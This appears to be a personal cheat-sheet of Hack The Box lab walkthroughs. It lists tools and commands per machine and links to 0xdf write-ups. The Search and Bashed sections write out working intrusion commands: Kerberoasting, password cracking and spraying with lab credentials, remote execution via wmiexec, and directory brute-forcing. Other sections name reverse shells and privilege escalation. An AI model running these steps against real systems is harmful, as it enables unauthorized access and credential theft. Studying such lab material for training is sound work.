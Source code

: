 # Win-Conceal
https://0xdf.gitlab.io/2019/05/18/htb-conceal.html
```
nmap -sU
snmpwalk
john
ipsec up conceal
ftp
webshell .asp
reverse shell - PowerShell
JuicyPotato
```

# Win-Search
https://0xdf.gitlab.io/2022/04/30/htb-search.html
```
smbclient \\\\10.10.11.129\\RedirectedFolders$ -U search.htb/hope.sharp
ldapdomaindump -u search\\hope.sharp -p IsolationIsKey? 10.10.11.129
./GetUserSPNs.py search.htb/hope.sharp -dc-ip 10.10.11.129 -request
john hash-web_svc -w=/usr/share/wordlists/rockyou.txt
crackmapexec smb 10.10.11.129 -u user_opt.txt -p @3ONEmillionbaby
sheetProtection
pfx2john staff.pfx > pfx_hash
./SharpHound.exe
./smbserver.py share . -smb2support -username df -password df
./BloodHound
./wmiexec.py 'search/tristan.davies:0xdf0xdf!!!@10.10.11.129'
```



# Win-StreamIO
```
SQL Injection
ffuf with authentication
evil-winrm
winPEAS
BloodHound
PowerView.ps1
```


# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```

# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```

# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum.sh
PrivEsc - systemctl
```
